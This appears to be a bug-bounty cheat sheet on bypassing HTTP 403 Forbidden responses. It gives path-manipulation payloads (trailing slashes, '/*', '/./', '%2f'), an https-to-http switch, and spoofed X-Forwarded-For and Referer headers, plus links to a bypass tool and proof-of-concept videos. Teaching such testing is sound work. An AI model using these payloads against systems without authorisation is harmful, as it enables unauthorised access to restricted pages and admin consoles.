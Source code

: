 ## 403 Bypass
I am sharing all this tips and techniques from my own personal experience there no official references for that

### Directory Based
If you see directory with no slash at end then do these acts there
```
site.com/secret => 403
site.com/secret/* => 200
site.com/secret/./ => 200
```
### File Base
If you see file without any slash at end then do these acts there
```
site.com/secret.txt => 403
site.com/secret.txt/ => 200
site.com/%2f/secret.txt/ => 200
```
### Protocol Base
Well, sound wired but check out the example for better understanding
```
https://site.com/secret => 403
http://site.com/secret => 200
```
## Payloads
```
/
/*
/%2f/
/./
./.
/*/
```
### Header
[https://observationsinsecurity.com/2020/08/09/bypassing-403-to-get-access-to-an-admin-console-endpoints/](https://observationsinsecurity.com/2020/08/09/bypassing-403-to-get-access-to-an-admin-console-endpoints/)
```
X-Forwarded-For: 127.0.0.1
```

Some New Tips Collected from Twitter

1-) site.com/Endpoint >> 403
Capture Request > Send to Repeater
Add this header
Referer: https://site.com/Endpoint> Send
200- This worked for someone xD

### Tools
Here is a Tool I found on twitter.
* [https://github.com/yunemse48/403bypasser](https://github.com/yunemse48/403bypasser)

## Proof Of Concept
Well Always look for some references or proof of concept if someone sharing any tips so you may confirm you are not wasting your time at all.
I have some poc video on my YouTube channel for 403 and other Improper access control bugs with those methods. You can check them

YouTube: [Mehedi Hasan Remon](https://www.youtube.com/channel/UCF_yxU7acxUojiGiOAMafQQ/videos?view_as=subscriber)

Author:[@remonsec](https://twitter.com/remonsec)
       [@KathanP19](https://twitter.com/KathanP19)
